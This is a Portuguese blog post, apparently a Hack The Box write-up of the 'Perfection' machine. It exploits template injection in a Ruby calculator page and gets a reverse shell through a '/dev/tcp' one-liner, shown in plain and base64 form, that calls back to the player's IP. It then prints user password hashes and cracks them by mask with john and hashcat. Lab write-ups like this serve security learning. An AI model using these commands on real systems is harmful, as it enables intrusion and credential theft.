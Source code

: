 ```yaml
---
description: CTF do Hack The Box como fiz e anotações.
title: HackTheBox - Perfection - Fácil
date: 2024-03-29 01:12:00 +/-0300
categories: [CTF, HackTheBox]
tags: [ctf, hackthebox, linux, sudo, web, ruby, stti, facil]     # TAG names should always be lowercase
show_image_post: true
---
```

![logo](/assets/img/perfection/perfection1.png){: w="100" h="100" .left}

---
# **CTF - Perfection**
---
---
## **Enumeração**

### nmap

```shell
─ sudo nmap -sV -Pn -sS --min-rate 10000 -stats-every 5 -p- -oN nmap 10.129.121.163
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 19:22 -03
Nmap scan report for 10.129.121.163
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)                   
80/tcp open  http    nginx                                                                          
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                             
                                                                                                    
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .      
Nmap done: 1 IP address (1 host up) scanned in 18.63 seconds   
```  
{: .nolineno }     

porta 80

![alt text](/assets/img/perfection/1.png)

Possíveis usuários Tina Smith, Susan Miller

FFUF sem resultados

### Burp

na calculadora do site

![alt text](/assets/img/perfection/calc.png)

Qualquer tentativa de injetar código recebe o retorno de `Malicious input blocked`


![alt text](/assets/img/perfection/calc2.png)

![alt text](/assets/img/perfection/2.png)

**SSTI (Server Side Template Injection)**

<https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby>

Payload  
o base64 após o echo, coloquei um ping -c 5 meu ip em tun0, para testar se o código estava sendo executado, e capturei com `tcpdump -i tun0 icmp`

![alt text](/assets/img/perfection/3.png)

### tcpdump

![alt text](/assets/img/perfection/4.png)

## **Acesso/Foothold**

### reverse shell

Para o payload funcionar a calculadora tem que fornecer os resultados corretamente.  
![alt text](/assets/img/perfection/5.png)

No caso usei esse que não gerou nenhum carácter de "+" em base64.  
Gerado através de <https://n00br00t.github.io/sh/>  
`sh -i >& /dev/tcp/10.10.14.126/4443 0>&1`  
Em base64  
`c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI2LzQ0NDMgMD4mMQ==`

listado a porta 4443 com netcat pra receber a reverse shell

`rlwrap nc -lvnp 4443`  

### user flag

![alt text](/assets/img/perfection/6.png)

## **Exploração**

db encontrado na home de susan.

```shell
susan@perfection:~$ ls -R
ls -R
.:
Migration  ruby_app  user.txt

./Migration:
pupilpath_credentials.db
```
{: .nolineno }


Hashs de usuários no db.

```shell
susan@perfection:~/Migration$ strings pupilpath_credentials.db 
strings pupilpath_credentials.db 
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
susan@perfection:~/Migration$ 
```
{: .nolineno }

E-mail de susan

```shell
susan@perfection:/var/mail$ cat susan
cat susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```
{: .nolineno }


Seguindo a policies de senha:
`{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}` seria:

susan_nasus_XXXXXXXXX  
X= números

usando john pra quebrar a hash onde fica os números.

Comando caso preferir hashcat

`hashcat -m 1400 -a 3 hashfile susan_nasus_?d?d?d?d?d?d?d?d?d`  

```shell
─ hash-identifier abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023fabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
 
Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
```
{: .nolineno }

## **Escalação Privilégio**

### john

`john hashsusan --mask='susan_nasus_?d?d?d?d?d?d?d?d?d' --format=Raw-SHA256`  

![alt text](/assets/img/perfection/7.png)

### root flag

![alt text](/assets/img/perfection/8.png)



**Conhecimentos adquiridos:**  
- Sobre a vulnerabilidade e o payload com regex (SSTI)
- Crack com mask no john

![alt text](/assets/img/perfection/9.png)

